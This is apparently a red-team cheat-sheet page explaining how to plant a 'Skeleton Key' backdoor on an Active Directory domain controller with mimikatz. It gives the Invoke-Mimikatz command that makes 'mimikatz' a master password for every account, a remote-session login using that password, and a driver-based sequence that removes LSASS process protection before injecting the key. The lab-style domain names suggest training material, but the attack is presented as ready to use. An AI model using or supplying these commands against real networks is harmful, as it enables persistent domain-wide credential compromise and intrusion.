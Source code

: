 # Skeleton Key

Use the below command to inject a skeleton key (password would be\
mimikatz) on a Domain Controller of choice. DA privileges required

```powershell
Invoke-Mimikatz -Command '"privilege::debug"  "misc::skeleton"' -ComputerName dcorpdc.dollarcorp.moneycorp.local

//it is possible to access any machine with a valid username and 
password as "mimikatz" 

Enter-PSSession –Computername dcorp-dc –credential dcorp\Administrator

```

In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC:

mimikatz # privilege::debug

mimikatz # !+

mimikatz # !processprotect /process:lsass.exe /remove

mimikatz # misc::skeleton

mimikatz # !-
